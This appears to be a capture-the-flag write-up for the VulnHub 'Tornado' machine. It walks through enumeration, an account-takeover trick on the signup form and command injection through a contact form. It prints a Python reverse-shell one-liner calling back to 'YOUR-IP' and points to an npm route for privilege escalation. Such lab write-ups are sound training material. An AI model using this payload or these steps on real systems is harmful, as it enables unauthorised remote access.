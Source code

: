 # Torando 
[Room Link](https://www.vulnhub.com/entry/ia-tornado,639/)

![image](https://user-images.githubusercontent.com/5285547/121968926-21f79300-cd6b-11eb-88a2-531041557970.png)


## Enumeration

Let's start with some enum!

### Nmap
```bash
nmap -p- -v 192.168.56.122
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Gobuster

```bash
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 10701]
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.122/manual/]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.56.122/javascript/]
/server-status        (Status: 403) [Size: 279]                                        
/bluesky              (Status: 301) [Size: 318] [--> http://192.168.56.122/bluesky/] 
```

bluesky? lets check it out

```bash
gobuster dir -u http://192.168.56.122/bluesky  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 14979]
/login.php            (Status: 200) [Size: 824]  
/contact.php          (Status: 302) [Size: 2034] [--> login.php]
/about.php            (Status: 302) [Size: 2024] [--> login.php]
/signup.php           (Status: 200) [Size: 825]                 
/css                  (Status: 301) [Size: 322] [--> http://192.168.56.122/bluesky/css/]
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x /imgs                 (Status: 301) [Size: 323] [--> http://192.168.56.122/bluesky/imgs/]
/js                   (Status: 301) [Size: 321] [--> http://192.168.56.122/bluesky/js/]  
/logout.php           (Status: 302) [Size: 0] [--> login.php]                            
/dashboard.php        (Status: 302) [Size: 2024] [--> login.php]                         
/port.php             (Status: 302) [Size: 2098] [--> login.php]   
```

Nice, we have a signup.php and login.php. Looks like a good place to start.  
Lets create an account and check the web app out. 

http://192.168.56.122/bluesky/

![image](https://user-images.githubusercontent.com/5285547/121968941-2d4abe80-cd6b-11eb-9c53-2be3f22bbcc6.png)

http://192.168.56.122/bluesky/signup.php

![image](https://user-images.githubusercontent.com/5285547/121969063-700c9680-cd6b-11eb-95eb-4f10ec2fa170.png)

After registering and going to login.php we get a dashbaord interface.

![image](https://user-images.githubusercontent.com/5285547/121969202-afd37e00-cd6b-11eb-9f1c-4a4443556bc1.png)

![image](https://user-images.githubusercontent.com/5285547/121969243-c11c8a80-cd6b-11eb-8e4b-d235c460b5ff.png)

![image](https://user-images.githubusercontent.com/5285547/121969267-d2659700-cd6b-11eb-996a-eea16e5413c9.png)

![image](https://user-images.githubusercontent.com/5285547/121969288-dee9ef80-cd6b-11eb-9461-ddcb1d8576e0.png)

Ok, so the contact form is not working and not much else is present apart from the hint for LFI. After testing I could not find any LFI vulnerability.  
Checking the source code of the web pages, we see one comment out of place on the portfolio.php page. 

```html
<!-- /home/tornado/imp.txt -->
```

Now the LFI makes sense, after trying a few variations we can get the working payload as

```bash
http://192.168.56.122/~tornado/imp.txt
```

![image](https://user-images.githubusercontent.com/5285547/121969565-7bac8d00-cd6c-11eb-882b-bd3585f0d9ba.png)

Now we have a list of what looks like varified users. Lets test the accounts and see if any have higher prividledges.
Using Burp community I captured the signup.php request and sent it to intruder so i can see if i can make the account on the list.  
It seemded none had extra access we see jacob@tornado, admin@tornado, hr@tornado are already registered.  
In the requests response I noticed a 'name:-13' element. On successful signup it was 'name:-15'

![image](https://user-images.githubusercontent.com/5285547/121970450-7d775000-cd6e-11eb-91c5-4eff2081d8b9.png)

I then tried to edit the source code with dev tools (F12) field to allow more charaters in the email field.
Changing the charate limit to 20 then trying again with 'jacob@tornado a' we can make a new acocunt. After now loggin in with jacob, 
the contact form works. 

![image](https://user-images.githubusercontent.com/5285547/121970990-a815d880-cd6f-11eb-9065-c3f320f98b6e.png)

![image](https://user-images.githubusercontent.com/5285547/121971000-b06e1380-cd6f-11eb-9535-e0f15dc61742.png)

Using tcpdump we can see if we get any ping back to our machine, which we do.

```bash
sudo tcpdump -i eth1
```

![image](https://user-images.githubusercontent.com/5285547/121971233-2e321f00-cd70-11eb-983c-5540275aede0.png)

Looks like we can get a reverse connection. 

Payload
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
kill current terminal
```
Ctrl + z
```
echo raw stty then forground it
```
stty raw -echo;fg
```
select terminal
```
xterm
```
when you get the terminal back enter
```
export TERM=xterm
```

![image](https://user-images.githubusercontent.com/5285547/121971512-c3351800-cd70-11eb-8e80-f06ad6df8344.png)

Enumerating the system we quickly see our priv esc route on the machine. 

![image](https://user-images.githubusercontent.com/5285547/121972155-4acf5680-cd72-11eb-86d2-0ce04c48c006.png)

Checking out npm on GTFOBins.com 

![image](https://user-images.githubusercontent.com/5285547/121972264-8a963e00-cd72-11eb-9151-146f35039214.png)

We see we make an update file and use that to get root. 







